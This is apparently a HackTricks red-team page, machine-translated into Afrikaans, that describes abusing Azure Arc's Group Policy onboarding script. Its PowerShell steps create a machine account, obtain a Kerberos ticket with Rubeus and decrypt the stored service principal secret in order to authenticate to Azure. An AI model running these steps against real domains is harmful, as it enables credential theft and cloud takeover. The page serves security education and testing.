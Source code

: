 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Azure Arc stel die integrasie van nuwe interne bedieners (aangeslote domeinbedieners) in Azure Arc via die Groep Beleidsobjek metode moontlik. Om dit te fasiliteer, bied Microsoft 'n ontplooiing toolkit wat nodig is om die aanmeldproses te begin. Binne die ArcEnableServerGroupPolicy.zip-lêer kan die volgende skripte gevind word: DeployGPO.ps1, EnableAzureArc.ps1, en AzureArcDeployment.psm1.

Wanneer uitgevoer, voer die DeployGPO.ps1-skrip die volgende aksies uit:

1. Skep die Azure Arc Servers Onboarding GPO binne die plaaslike domein.
2. Kopieer die EnableAzureArc.ps1 aanmeldskrip na die aangewese netwerkdeel wat geskep is vir die aanmeldproses, wat ook die Windows-installerpakket bevat.

Wanneer hierdie skrip uitgevoer word, moet stelselsadmins twee hoofparameters verskaf: **ServicePrincipalId** en **ServicePrincipalClientSecret**. Daarbenewens vereis dit ander parameters soos die domein, die FQDN van die bediener wat die deel huisves, en die deelnaam. Verdere besonderhede soos die huurder-ID, hulpbron groep, en ander nodige inligting moet ook aan die skrip verskaf word.

'n Geënkripteerde geheim word in die AzureArcDeploy-gids op die gespesifiseerde deel gegenereer met behulp van DPAPI-NG-enkripsie. Die geënkripteerde geheim word in 'n lêer genaamd encryptedServicePrincipalSecret gestoor. Bewyse hiervan kan in die DeployGPO.ps1-skrip gevind word, waar die enkripsie uitgevoer word deur ProtectBase64 met $descriptor en $ServicePrincipalSecret as invoer. Die descriptor bestaan uit die Domeinrekenaar en Domeinbeheerder groep SIDs, wat verseker dat die ServicePrincipalSecret slegs deur die Domeinbeheerders en Domeinrekenaar sekuriteitsgroepe ontkripteer kan word, soos opgemerk in die skripkommentaar.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Ons het die volgende voorwaardes:

1. Ons het suksesvol die interne netwerk binnegedring.
2. Ons het die vermoë om 'n rekenaarrekening binne Active Directory te skep of te beheer.
3. Ons het 'n netwerkdeel ontdek wat die AzureArcDeploy-gids bevat.

Daar is verskeie metodes om 'n masjienrekening binne 'n AD-omgewing te verkry. Een van die mees algemene is om die masjienrekeningkwota te benut. 'n Ander metode behels die kompromittering van 'n masjienrekening deur kwesbare ACL's of verskeie ander miskonfigurasies.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Sodra 'n masjienrekening verkry is, is dit moontlik om met hierdie rekening te autentiseer. Ons kan of die runas.exe-opdrag met die netonly-vlag gebruik of pass-the-ticket met Rubeus.exe gebruik.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Deur die TGT vir ons rekenaarrekening in geheue te stoor, kan ons die volgende skrip gebruik om die dienshoofsekrte te ontsleutel.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternatiewelik kan ons [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG) gebruik.

Op hierdie punt kan ons die oorblywende inligting versamel wat nodig is om met Azure te verbind vanaf die ArcInfo.json-lêer, wat op dieselfde netwerkdeel as die encryptedServicePrincipalSecret-lêer gestoor is. Hierdie lêer bevat besonderhede soos: TenantId, servicePrincipalClientId, ResourceGroup, en meer. Met hierdie inligting kan ons Azure CLI gebruik om as die gecompromitteerde dienshoof te autentiseer.

## Verwysings

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
